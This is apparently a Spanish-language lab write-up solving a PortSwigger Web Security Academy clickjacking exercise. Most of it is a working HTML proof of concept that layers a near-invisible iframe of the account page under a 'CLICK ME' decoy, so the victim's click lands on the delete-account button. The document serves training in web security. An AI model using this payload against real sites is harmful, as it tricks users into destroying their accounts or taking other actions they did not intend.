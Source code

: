 ## Objetivo:

![[Pasted image 20240609181701.png]]

## Solucion:

Iniciamos sesion con nuestra cuenta y nos vamos a la siguiente opcion

![[Pasted image 20240609182119.png]]

En el body pegamos lo siguiente:

![[Pasted image 20240609182205.png]]

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

  

<style>

iframe {

width: 1000px;

height: 700px;

z-index: 2;

position: relative;

opacity: 0.2;

}

  

div {

z-index: 1;

position: absolute;

top: 517px;

left: 50px;

}

</style>

  

</head>

<body>

<div>CLICK ME</div>

<iframe src="https://0ab1001804278f7a827951ca00460014.web-security-academy.net/my-account"></iframe>

</body>

</html>

```

Y le damos en "Store" y luego en "View exploit" y nos aseguramos de que la palabra "CLICK ME" esté sobre el boton de eliminar cuenta.

![[Pasted image 20240609182321.png]]

Una vez verificado eso, cambiamos el valor de la propiedad "opacity" del "iframe" a 0.000001 y damos nuevamente en Store y View exploit para verficiar que no sea vea le iframe

![[Pasted image 20240609182954.png]]


Y efectivamente no se ve

![[Pasted image 20240609183040.png]]


Le damos ahora el siguiente boton y listo

![[Pasted image 20240609183101.png]]


![[Pasted image 20240609183114.png]]

